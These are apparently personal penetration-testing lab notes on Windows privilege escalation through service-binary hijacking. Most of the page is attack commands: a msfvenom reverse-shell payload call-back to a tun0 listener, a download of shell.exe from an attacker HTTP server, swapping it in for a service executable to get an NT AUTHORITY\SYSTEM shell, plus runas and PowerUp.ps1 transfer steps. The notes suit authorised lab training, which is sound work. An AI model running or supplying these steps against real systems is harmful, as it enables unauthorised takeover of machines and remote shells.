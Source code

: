 Reboot
	`shutdown /r /t 0`
		`/r    #reboot instead of shutdown
		`/t 0   #(0 seconds)

Verify if malicious binary ran
	upon reboot, check users
	`Get-LocalGroupMember administrators`
		success
		`User        CLIENTWK220\dave2         Local

`runas`
	`runas /user:domain\user ".\shell.exe"`
	obtain interactive shell as dave2
	use msfvenom to create a exe reverse shell
	Use RunAsUser.exe if you do not have an interactive shell (see methodology notes)

to restore original state of device, first delete our binary restore the original, and restart the system

###### Exploit v2 (Rev shell as nt authority\system)

Instead of doing v1, just swap out the service with a rev-shell generated by msfvenom (or whatever your prefer)

```
#Generate revshell with msfvenom
msfvenom -p windows/x64/shell_reverse_tcp LHOST=tun0 LPORT=<port> -f exe -o shell.exe

#Transfer over file
iwr -uri http://192.168.48.3/shell.exe -Outfile shell.exe

#Replace binary
move C:\path\to\binary\svc.exe C:\somewhere\else\svc.exe
move shell.exe C:\path\to\binary\svc.exe

#Restart Service
#If not possible, see if reboot priv is enabled and if svc autoruns
net stop <svc>
net start <svc>

#Catch shell on listener
```

___
Automated tool 

PowerUp.ps1
	checks for priv esc vectors

host via http server
	`cp /usr/share/windows-resources/powersploit/Privesc/PowerUp.ps1 .`
	`python3 -m http.server 80`

Transfer
	`iwr -uri http://192.168.48.3/PowerUp.ps1 -Outfile PowerUp.ps1
